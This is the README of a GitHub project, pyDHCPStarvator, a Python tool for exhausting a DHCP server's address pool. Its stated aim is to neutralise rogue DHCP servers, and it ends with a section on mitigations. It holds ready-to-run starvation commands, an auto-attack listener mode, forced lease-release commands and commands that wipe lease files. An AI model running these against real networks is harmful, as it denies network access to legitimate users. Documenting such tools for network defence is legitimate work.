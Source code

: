 # pyDHCPStarvator

This is a Python program that can run out an entire DHCP pool.
pyDHCPStarvator was not created for doing network attacks but like a way to exaust a DHCP Rogue pool when security-port and dhcp-snoop features are not available in your wired or wireless network equipments.

### Requirements
````
apt install python3-dev python3-pip
pip3 install scapy-python3
pip3 install netaddr
````
It was migrated from python2 to python3, hopefully the right thing!

### Usage
````
usage: starvit.py [-h] -i I -net NET [-start N] [-end N] [-rep N]
                  [-server_id SERVER_ID] [-random_hostnames]
                  [-dst_mac DST_MAC] [-timeout TIMEOUT] [-debug]

optional arguments:
  -h, --help            show this help message and exit
  -i I                  local network interface
  -net NET              /24 subnet, example: -subnet 192.168.27.0/24
  -start N              start ip to request
  -end N                how many request will be done
  -rep N                repetition, sometime packet get lost. Default: 3
                        requests per ip
  -server_id SERVER_ID  DHCP server id, example: 192.168.27.254
  -random_hostnames     random client hostnames, othrewise client's hostname
                        will be: ?
  -dst_mac DST_MAC      Destination DHCP MAC address, default:
                        ff:ff:ff:ff:ff:ff
  -timeout TIMEOUT      seconds to wait between a request and another. example
                        -timeout 0.2
  -debug                print packets
````

##### usage examples
````
# starvation on entire network class
sudo python3 starvit.py -i eth2  -net 192.168.0.0/16  -dst_mac 08:00:27:7c:f9:41 -t 0.05

# starvation on selected ip range
sudo python3 starvit.py -i eth2  -net 192.168.1.0/24 -start 92 -end 100 -dst_mac 08:00:27:7c:f9:41

# just add a server_id as a specific target
sudo python3 starvit.py -net 192.168.1.0/24 -start 10 -end 253 -server_id 192.168.27.254

# specify server by its MAC address and print packets to stdout
sudo python3 starvit.py -net 192.168.1.0/24 -start 80 -end 100 -dst_mac 08:00:27:7C:F9:41 -debug


````

#### example stdout with -debug option
````
Requesting: 192.168.1.98
<Ether  dst=08:00:27:7C:F9:41 src=7b:7b:d1:5a:6b:62 type=IPv4 |<IP  frag=0 proto=udp src=0.0.0.0 dst=255.255.255.255 |<UDP  sport=bootpc dport=bootps |<BOOTP  chaddr=<RandMAC> options='c\x82Sc' |<DHCP  options=[message-type='request' requested_addr=192.168.1.98 end] |>>>>>
.
Sent 1 packets.
````

#### -server_id and -dst_mac
These options focus the attack on a specified endpoint, the DHCP server, by ip or mac address.

If you using a wrong server_id value all the DHCP servers in the l2 broadcast will get something similar in their logs and will not release any ip from their pool.
````
Wed May 16 17:31:35 2018 daemon.info dnsmasq-dhcp[31796]: DHCPNAK(br-lan) 192.168.27.135 30:63:3a:33:38:3a wrong server-ID
````

### Request an IP release
Usefull if you want to force a DHCP server to remove a DHCP lease and then make a client to request an ip again
````
python release_ip.py -src_mac 66:36:3a:37:31:3a -src_ip 192.168.1.93 -dst_mac 08:00:27:7C:F9:41 -dst_ip 192.168.1.1 -debug 1

````

### Send a DHCP discover and listen for event
A listener could also be executed to run a function callback for every packet sniffed.
For example we could send a gratuitous DHCP DISCOVER and listen for DHCP OFFER from rogue DHCP servers.

````
# DHCP DISCOVER
python2 dhcp_discover.py -i eth2

# DHCP event listener
python listener.py -i eth2 [-debug]

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
````

listener.py can also be runned in starvation attack mode (subprocess).
If a DHCP-OFFER has been sniffed it will automatically starvate that DHCP.
It can also whitelists one or more DHCP and attack only the ROGUE DHCP.


In this example 10.21.0.254 is whitelisted, attack will only run 
against 192.168.1.1.
````
python3 listener.py -i eth2 -starvation-attack -starvation-exclude d4:ca:6d:e6:6a:d7

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
````

To solicitate DHCP-OFFER we craft DHCP-REQUEST packets
````
python2 dhcp_discover.py -i eth2

#or
nmap --script broadcast-dhcp-discover -e eth0
````


### Results
![example](images/example.png)
An OpenWRT DHCP server used as victim.
Some fake client requests was forged with "-random_hostnames" option, some other not.

![discover](images/discover2.png)
Server side effects of DHCP Discovery, dhcp_discover.py will always use a fake mac address to run its inspections.

### Hints
````
# tcpdump activity sniffing
tcpdump -i $ifname -n 'port 67 and port 68'

# dhcp discover
nmap --script broadcast-dhcp-discover -e eth0
````
````
# dhcp leases flush
# openwrt
echo "" >  /tmp/dhcp.leases

# debian
echo "" >  /var/lib/dhcp3/dhcp.leases

````
### Attack mitigations
As previosly described a DHCP starvation is commonly prevented with:

- port-security, it permits to lock a network switch's physical port to a restricted number of mac addresses. A dhcp starvation cannot spoof mac addresses in this configuration.
- dnc-snoop, a network switch will reject DHCP packets on port 67 and 68 coming from unauthoritative DHCP servers. This commonly prevents rogue DHCP activities.

If any of these are not available the only solution is to arping every dhcp request src and, if any response come back, remove that DHCP lease from DHCP server (see previous chapter). A FOR loop on every dhcp.leases file's row could execute an arping to check the real existence of a client, if it will be negative that row should be removed and the dhcp lease released.

### License

DHCPStarvator is made by Giuseppe De Marco and it's released under the GPL 3 license.

### Todo

- configurable MAC randomization (I found Scapy's RandMAC too much recognizable!);
- please open issues/ticket and suggest!

### Resources

- http://scapy.readthedocs.io/en/latest/#sniffing
- https://phaethon.github.io/scapy/api/
- https://blog.jasonantman.com/2010/04/dhcp-debugging-and-handy-tcpdump-filters/
- https://www.whitewinterwolf.com/posts/2017/10/30/dhcp-exploitation-guide/
- https://github.com/foreni-packages/dhcpig

### Special thanks
To [Daniele Albrizio](https://github.com/speedj) for given a name to an idea ;)
